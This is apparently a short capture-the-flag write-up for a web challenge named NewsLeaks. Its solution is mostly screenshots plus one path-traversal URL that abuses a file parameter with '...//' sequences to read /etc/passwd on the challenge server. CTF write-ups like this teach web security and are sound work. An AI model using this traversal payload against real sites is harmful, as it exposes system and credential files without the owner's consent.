 # NewsLeaks

## Challenge Description

Keep scrolling, but something feels... off. Can you figure it out?

[Link](https://newsleaks.h7tex.com/)

Author: **N1sh**

***

## Solution

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image 1 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image 2 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image 3 (1).png" alt=""><figcaption></figcaption></figure>



```url
https://newsleaks.h7tex.com/view.php?file=...//...//...//...//etc/passwd
```



<figure><img src="../../../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>


